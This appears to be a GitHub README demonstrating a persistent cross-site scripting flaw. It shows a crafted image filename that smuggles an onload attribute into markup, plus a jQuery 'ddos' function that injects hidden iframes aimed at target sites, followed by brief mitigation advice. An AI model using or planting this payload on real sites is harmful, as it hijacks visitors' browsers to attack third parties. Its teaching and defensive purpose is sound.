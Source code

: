 <p align="center">
  <img src="https://weplaywithfirehere.files.wordpress.com/2023/08/img_7076.jpg" alt="XSS Vulnerability Demo Logo" width="200"/>
</p>

<h1 align="center">𖤐 Persistent Cross-Site Scripting (XSS) Vulnerability Demo 𖤐</h1>

<p align="center">
  <a href="https://www.gnu.org/licenses/"><img src="https://img.shields.io/badge/License-GNU-yellow.svg" alt="License: GNU"></a>
  <a href="https://jquery.com/"><img src="https://img.shields.io/badge/jQuery-%3E%3D%203.5.1-brightgreen" alt="jQuery Version"></a>
  <a href="https://github.com/tukru/Persistent-Cross-Site-Scripting"><img src="https://img.shields.io/badge/Repo-GitHub-blue" alt="GitHub Repository"></a>
</p>

<p align="center">
  This repository contains a professional demonstration of a persistent Cross-Site Scripting (XSS) vulnerability. It illustrates how an insecure image tag can be exploited to inject malicious JavaScript code into a web page, leading to potential security risks.
</p>

---

## 𖤐 Description

The code in this repository demonstrates a common security vulnerability known as persistent Cross-Site Scripting (XSS). By not properly validating or sanitizing user input, malicious code can be injected into a web page and executed by other users who view the affected page.

## 𖤐 Code Example

```html
<img src="/imagename.jpg" onload="ddos('http://www.target1.com/1.jpg', 'http://www.target2.com/1.jpg');">
function ddos(url1, url2) {
  $("body").append("<iframe id='ifri_1523' style='display:none;' src='" + url1 + "'></iframe>");
  $("body").append("<iframe id='ifri_1524' style='display:none;' src='" + url2 + "'></iframe>");
}
```
𖤐 Methodologies and Tactics

The code leverages the onload event in an image tag to execute arbitrary JavaScript code once the image has finished loading. This code can be used to perform various malicious activities, such as launching a Distributed Denial of Service (DDoS) attack.

    Methodology: Persistent XSS attack
    Tactics: Utilizing insecure image tags, exploiting the lack of input validation and sanitization

𖤐 Proof of Concept (PoC)

The following steps outline how the persistent XSS vulnerability can be exploited:

  Inject Malicious Code: An attacker can upload an image with a specially crafted name that includes JavaScript code. For example, setting the image name to innocent.jpg" 

    onload="ddos('http://www.target1.com/1.jpg', 'http://www.target2.com/1.jpg'); would generate the following HTML markup:

    <img src="/innocent.jpg" onload="ddos('http://www.target1.com/1.jpg', 'http://www.target2.com/1.jpg');">

  Execute Arbitrary Script: Utilizing the onload event, the arbitrary script will be executed once the image has finished loading. This JavaScript code will run inside the browser of anyone who views the affected profile.

    Potential Impact: The injected code can be used to perform various malicious activities, such as launching DDoS attacks, stealing user data, or redirecting users to phishing sites.
    
𖤐 Mitigation

To prevent this vulnerability, proper input validation and sanitization should be implemented. Escaping special characters and using secure coding practices can help ensure that user input is handled safely.

𖤐 Disclaimer

This code is provided for educational and research purposes only. It demonstrates a known security vulnerability and should not be used maliciously or without proper authorization.

𖤐 License

This project is licensed under the GNU General Public License. See the LICENSE.md file for details.
<p align="center">
  Made with ❤️ and CHAOS by <a href="https://github.com/tukru">tukru</a>
</p>
